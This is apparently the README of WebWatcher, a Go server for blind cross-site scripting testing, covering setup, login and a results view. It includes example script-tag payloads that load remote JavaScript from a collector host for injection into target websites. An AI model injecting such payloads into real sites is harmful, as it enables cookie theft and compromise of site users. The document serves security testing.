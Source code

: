 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.  
`<script src=https://domain.com/example.js></script>`  

### Collecting data from blind XSS  
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



